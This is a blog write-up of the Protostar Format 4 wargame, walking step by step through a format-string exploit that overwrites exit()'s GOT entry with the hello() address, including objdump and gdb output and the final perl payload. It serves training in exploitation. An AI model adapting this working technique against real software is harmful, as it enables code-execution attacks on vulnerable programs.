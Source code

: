 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 4"
date: 2012-02-02T05:15:00-05:00
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Next up is the last challenge in the Format String series, [Format 4](http://exploit-exercises.com/protostar/format4). 

<!-- more -->

It starts out with the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
 printf("code execution redirected! you win\n");
 _exit(1);
}

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);

 printf(buffer);

 exit(1); 
}

int main(int argc, char **argv)
{
 vuln();
}
```

What initially caught my eye was the fact that there was a call to "exit()" as well as "_exit()".  This made me think back to my reading, and I realized it was going to be a GOT (Global Offset Table) overwrite on "exit()".  When the program runs for the first time, the GOT is initialized to 0x00000000 for every external function, such as libc functions.  The first time it runs that function, it will cache the memory address in the GOT, so that it doesn't have to ask libc, or the corresponding library each time.  If we overwrite the GOT value, we can make it execute arbitrary code instead of that original function.  In this case, our victim is "exit()". 

For this exploit to work, we will need a few things: 

* Memory address of "exit()" in the GOT, which we want to overwrite
* Memory address of "hello()", which will be the data we overwrite the GOT with
* Stack offset for the format string
* The amount of characters to buffer for each byte-pair

Getting the memory address of the "exit()" method in the GOT is fairly easy:

```
user@protostar:/opt/protostar/bin$ objdump -R format4

format4:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

Getting the memory address of "hello()" is quite similar: 

```
user@protostar:/opt/protostar/bin$ objdump -t format4 | grep hello
080484b4 g     F .text  0000001e              hello
```

To get the stack offset of the format string, it's quite simple.  We've done it in prior challenges.  Let's just spam "%x":   

```
user@protostar:/opt/protostar/bin$ echo AAAAAAAA`perl -e 'print "%x."x15'` | ./format4
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
```

From this, we can now see "41414141" in the 4th stack variable, so our offset is 4. 

Using that offset of 4, we can now generate a format string using Direct Parameter Access, which I've only slightly mentioned in previous posts. I chose to dump the string to a file, because it made it really easy to use with gdb. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%4\$n"' > /home/user/format4_dpa
```

Next, if we run it in gdb, we can see how many characters are being written to "printf" initially, and adjust our buffering to compensate.  Start up the gdb debugger, and disassemble the "vuln" function.  We do this, so we can set a breakpoint right before "exit()" gets called. 

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   %ebp
0x080484d3 <vuln+1>:    mov    %esp,%ebp
0x080484d5 <vuln+3>:    sub    $0x218,%esp
0x080484db <vuln+9>:    mov    0x8049730,%eax
0x080484e0 <vuln+14>:   mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:   movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:   mov    %eax,(%esp)
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:   mov    %eax,(%esp)
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   movl   $0x1,(%esp)
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) b *vuln+61
Breakpoint 1 at 0x804850f: file format4/format4.c, line 22.
```

After the breakpoint has been set, go ahead and run the program, piping in the formatstring from the file we created earlier: 

```
(gdb) run < /home/user/format4_dpa
Starting program: /opt/protostar/bin/format4 < /home/user/format4_dpa

Breakpoint 1, 0x0804850f in vuln () at format4/format4.c:22
22      format4/format4.c: No such file or directory.
        in format4/format4.c
```

What we need to do, is examine the address of the GOT space for the "exit()" method, and now see what was set. 

```
(gdb) x/1x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x00000010
```

Good, so far we know: <ul><li>GOT address to overwrite: 0x8049724</li><li>Value to overwrite it with: 0x080484b4</li></ul>
We can use this data to now calculate all of the individual buffer sizes needed to get the right number of characters output by "printf".  This little trick was learned from reading [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />, which I highly recommend.  Without this book, I would have been stuck on these format string levels for a lot longer than I was. I just needed a little bump, and it gave it to me. 

```
user@protostar:/opt/protostar/bin$ gdb -q
(gdb) p 0xb4 - 0x00000010
$1 = 164
(gdb) p 0x84 - 0xb4
$2 = -48
(gdb) p 0x184 - 0xb4
$3 = 208
(gdb) p 0x04 - 0x84
$4 = -128
(gdb) p 0x104 - 0x84
$5 = 128
(gdb) p 0x08 - 0x04
$6 = 4
(gdb) p 0x108 - 0x04
$7 = 260
```

To explain this, you take the address you want to overwrite with (0x080484b4 in our case) and split it up into the byte pairs in little endian order (b4, 84, 08, 08).  Starting with the first one (b4), you subtract the base number we saw get written before (0x00000010), and that will give us the first buffer length of 164.  For the second one, take the 2nd byte pair (84) and subtract the first byte pair (b4).  In this case, we went negative, so we add a "1" in the most significant digit of the first number, making ours "184".  We then subtract again, and get 208.  You do this for all 4 pairs, and you get your offsets of 164, 208, 128, 260. 

Now that we have our buffer sizes, let's construct the format string with them: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%164x%4\$n"."%208x%5\$n"."%128x%6\$n"."%260x%7\$n"' > /home/user/format4_dpa
```

Lastly, we run the format4 program with the format4_dpa file as the input: 

```
user@protostar:/opt/protostar/bin$ ./format4 < /home/user/format4_dpa           $%&'                                                              

                                                                                                   200                                            

                                                                                                                                                  

          b7fd8420                                                                                                                        

bffff624                                                                                                                                          

                                                                                                                   8049724code execution 

redirected! you win
```

And that's a win! 

I learned a lot of things in this section of the Protostar challenge.  I had almost no experience with format string exploitation, but now I'm feeling pretty comfortable with them.  We'll have to see about the [Final 1](http://exploit-exercises.com/protostar/final1) level.